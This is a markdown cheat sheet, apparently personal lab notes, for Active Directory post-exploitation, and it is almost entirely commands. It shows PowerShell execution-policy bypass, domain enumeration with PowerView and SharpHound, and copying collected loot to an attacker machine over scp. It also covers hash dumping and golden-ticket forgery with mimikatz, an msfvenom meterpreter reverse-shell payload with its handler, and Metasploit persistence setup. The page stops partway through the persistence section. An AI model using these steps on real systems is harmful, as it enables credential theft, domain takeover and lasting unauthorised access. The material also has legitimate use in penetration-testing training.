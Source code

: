 # Post Exploitation

## Enumeration w/ Powerview

Bypasses the execution policy of PowerShell allowing you to easily run scripts:

```powershell
powershell -ep bypass
```

Import PowerView.ps1;

Enumerate Domain Users:

```powershell
Get-NetUser | select cn
```

Enumerate Domain Groups:

```powershell
Get-NetGroup -GroupName *admin*
```



Here's a cheatsheet with a lot of PowerView related commands:

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)



Find Shares:

```powershell
Invoke-ShareFinder
```

Get AD Computers' Information:

```powershell
Get-NetComputer -FullData
```

```powershell
Get-NetComputer -FullData | select operatingsystem, operatingsystemversion
```

## Enumeration w/ BloodHound

### Getting loot w/ SharpHound

Bypass Execution Policy

```powershell
powershell -ep bypass
```

Import SharpHound;

{% hint style="info" %}
Make sure the SharpHound.ps1 version is new, otherwise there will be problems with BloodHound
{% endhint %}

Getting Loot:

```powershell
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

Send the loot to your Attacker machine (With SCP):

```powershell
scp C:\Users\Administrator\20241116222926_loot.zip kali@10.11.101.30:/home/kali/thm/postexploit
```

### Mapping the Network w/ BloodHound

Start neo4j:

```bash
sudo neo4j console
```

For first-time usage, you will set a password. After that run bloodhound.

```bash
bloodhound
```

Next, drag and drop the loot.zip file to bloodhound UI.

## Dumping hashes w/ mimikatz

Run mimikatz

```powershell
mimikatz.exe
```

Check privilege:

```powershell
privilege::debug
```

Dump hashes:

```
lsadump::lsa /patch
```

Then crack the hashes with hashcat

## Golden Ticket Attacks w/ mimikatz

Check privilege:

```powershell
privilege::debug
```

Dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```powershell
lsadump::lsa /inject /name:krbtgt
```

You need these outlined in red to create a golden ticket:

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

### Create a Golden Ticket

Create ticket:

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

Example:

```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt
:5508500012cc005cf7082a9a89ebdfdf /id:500
```

### Use Golden Ticket to access all other machines

```
misc::cmd
```

## Maintaining Access

Generating a payload w/ msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
```

Transfer the payload from your (attacker) machine to the target machine

Listen using use exploit/multi/handler in metasploit

Set payload:

```bash
set payload windows/meterpreter/reverse_tcp
```

Run the listener and execute the payload on target

### Persistence Module

First, background the meterpreter shell:

```bash
background
```

Use Local Persistence module for Windows:

```bash
use exploit/windows/local/persistence
```

Next, set session to the one you need:

```bash
set session 1
```

